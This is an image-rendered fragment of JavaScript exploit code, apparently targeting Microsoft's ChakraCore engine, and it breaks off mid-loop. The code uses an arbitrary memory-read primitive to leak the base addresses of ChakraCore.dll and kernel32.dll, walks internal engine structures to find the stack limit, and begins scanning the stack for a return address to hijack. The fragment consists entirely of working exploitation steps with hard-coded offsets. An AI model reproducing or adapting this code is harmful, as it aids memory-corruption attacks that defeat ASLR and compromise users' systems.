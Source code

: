 ```javascript
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
    print("[+] Leaked stack from type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread!");
    print("[+] Stack leak: 0x" + hex(stackAddress[1]) + hex(stackAddress[0]));

    // Compute the stack limit for the current thread and store it in an array
    var stackLeak = new Uint32Array(0x10);
    stackLeak[0] = stackAddress[0] + 0xed000;
    stackLeak[1] = stackAddress[1];

    // Print update
    print("[+] Stack limit: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]));

    // Scan the stack

    // Counter variable
    let counter = 0;

    // Store our target return address
    var retAddr = new Uint32Array(0x10);
    retAddr[0] = chakraLo + 0x1768bc0;
    retAddr[1] = chakraHigh;

    // Loop until we find our target address
    while (true)
    {

        // Store the contents of the stack
        tempContents = read64(stackLeak[0]+counter, stackLeak[1]);

        // Did we find our return address?
```